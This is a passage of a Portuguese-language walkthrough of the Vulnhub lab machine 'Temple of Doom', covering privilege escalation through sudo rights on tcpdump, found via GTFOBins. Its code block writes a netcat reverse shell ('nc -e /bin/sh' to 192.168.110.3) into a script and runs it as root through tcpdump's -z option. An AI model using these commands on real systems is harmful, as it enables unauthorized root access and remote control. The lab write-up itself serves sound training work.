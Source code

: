 

## Escalando Privilegio

Seguindo a metodologia verifiquei o que poderia ser executado como sudo e existem 03 binarios que podem ser executados

![](/assets/img/Vulnhub/TempleOfDoom/fireman-sudoL.png)


### GTFOBINS

Verifiquei no portal **[GTFOBINS](https://gtfobins.github.io/)** o que poderia ser explorado para conseguir escalar privilegio. Encontramos respostas promissoras para o **tcpdump**

![](/assets/img/Vulnhub/TempleOfDoom/gtfobins.png)



### TCPDUMP

Antes de explorar o binario tcpdump, e necessario criar um arquivo contendo o shell code e dar permissao de execucao para esse arquivo. Feito isso agora bastar executar o comando do tcpdump com os parametros informados

```bash
echo "nc -e /bin/sh 192.168.110.3 9999" > charlie
chmod +x charlie
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/charlie -Z root
```
